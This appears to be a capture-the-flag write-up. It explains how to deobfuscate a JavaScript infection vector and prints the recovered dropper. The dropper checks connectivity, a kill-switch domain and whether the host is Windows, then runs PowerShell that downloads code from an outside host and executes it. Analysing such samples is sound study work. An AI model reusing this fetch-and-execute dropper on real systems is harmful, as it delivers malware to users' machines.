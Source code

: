 # Writeup
First deobfuscate the InfectionVecotr.js. Useful links are
- https://www.dejs.vip/2obfuscator
- https://dev-coco.github.io/Online-Tools/JavaScript-Deobfuscator.html

Once you deobfuscate the js file, you can find a website http://malware.secard.ca
The deobfuscated content will be something like below:
```
const {execSync: execute} = require('child_process');
if (!check_http_connection('https://www.microsoft.com')
     || !check_http_connection('https://www.twitter.com')
     || !check_http_connection('https://www.facebook.com')
     || check_http_connection('https://commandandcontrolkillswitch3154.com')) {
    console.log('Error Code 1: Check Failed!');
    return;
}
if (!is_windows()) {
    console.log('Error Code 2: Check Failed!');
    return;
}
var com1 = '(iwr "http://malware.secard.ca" -UseBasicParsing).Content | ForEach-Object { Invoke-Expression $_ }';
execute_command(com1);

function check_http_connection(url) {
    return new Promise(_0x360dc4 => {
        require('https').get(url, _0x38ecb4 => {
            _0x360dc4(_0x38ecb4.statusCode === 200);
        }).on('error', () => {
            _0x360dc4(false);
        });
    });
}
function is_windows() {
    try {
        const _0x3801b4 = execute('wmic os get Caption').toString();
        return _0x3801b4.includes('Windows');
    } catch (err) {
        console.error('Error executing command:', err.message);
        return false;
    }
}

function execute_command(cmd) {
    console.log(1)
    execute('powershell.exe -command "' + cmd + '"', (_0x35b1a0, _0x55aa67, _0x3a09b0) => {
        console.log(_0x35b1a0.message, _0x3a09b0, _0x55aa67)
        if (_0x35b1a0) {
            console.error('Error executing PowerShell command:', _0x35b1a0.message);
            return;
        }
        if (_0x3a09b0) {
            console.error('PowerShell command execution encountered an error:', _0x3a09b0);
            return;
        }
        console.log('PowerShell command executed successfully. Output:', _0x55aa67);
    });
}
```
